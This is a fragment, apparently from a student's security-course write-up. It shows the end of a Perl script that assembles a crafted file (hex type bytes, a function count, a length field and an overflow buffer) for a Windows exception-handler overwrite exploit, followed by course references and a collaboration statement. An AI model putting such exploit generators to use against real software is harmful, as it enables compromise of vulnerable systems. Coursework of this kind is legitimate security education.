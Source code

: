```perl
"\x71\x49\x65\x51\x87\x0D\x51\x4A" .      # Types
"\x91\xE3\xA6\xB5\x32\x35\xF3\xE7" .

"\x01\x00\x00\x00".                       # Function count
"\x01\x01" .                              # Function 1
"\x00\x00" .                              # Dummy

$length .                                 # Length
$buffer;

print $maki;

```

## References and Collaborations

### References

* [EECS765 PA4 Description](https://www.ittc.ku.edu/~alexbardas/sec/materials/assignments/pa4.html)
* [EECS765 Windows Exception Overwrite Attack Slides](https://www.ittc.ku.edu/~alexbardas/sec/materials/slides/SEHOverflow-tmp.pdf)

### Collaborations

I did not collaborate with any other students on this programming assignment.
